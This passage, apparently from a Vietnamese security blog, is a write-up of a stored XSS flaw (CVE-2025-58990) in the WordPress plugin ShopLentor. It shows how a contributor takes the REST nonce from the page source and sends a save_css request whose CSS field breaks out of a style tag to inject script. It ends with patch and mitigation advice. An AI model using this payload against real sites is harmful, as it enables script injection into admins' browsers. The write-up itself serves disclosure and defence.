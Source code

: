 **Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

👉 Thiếu header **X-WP-Nonce** để phân quyền người dùng. Ta mở source HTML (<kbd>Ctrl</kbd>+<kbd>U</kbd>) trang chỉnh sửa bài viết: 

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Tìm `wpApiSettings` trong source và lấy giá trị `nonce`

![wpApiSettings](assets/img/posts/2025-09-17-CVE-2025-58990/api_search.png)

Gửi request với **X-WP-Nonce** có giá trị vừa lấy được

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Preview post**

![Preview](assets/img/posts/2025-09-17-CVE-2025-58990/preview.png)

👉 XSS thành công, **inspect** để xem code được thay đổi như nào

**View source code**

![Code](assets/img/posts/2025-09-17-CVE-2025-58990/code.png)

## Conclusion
Lỗ hổng **CVE-2025-58990** trong plugin **ShopLentor <= 3.2.0** cho phép **contributor** chèn CSS độc hại dẫn đến Stored XSS khi admin/author preview hoặc xem post. Bản vá **3.2.1** bổ sung kiểm tra quyền và sanitize CSS, ngăn chặn khai thác.

**Key takeaways**:
- Luôn kết hợp **kiểm tra quyền** và **sanitize** dữ liệu khi xử lý input từ người dùng.
- Các role thấp (như **contributor**) vẫn có thể trở thành điểm tấn công nếu API không bảo vệ đúng cách.
- **Stored XSS** trong WordPress thường xuất hiện khi dữ liệu được lưu DB/file => render inline mà không lọc.
- Việc cập nhật plugin kịp thời là biện pháp phòng thủ đơn giản nhưng hiệu quả nhất.
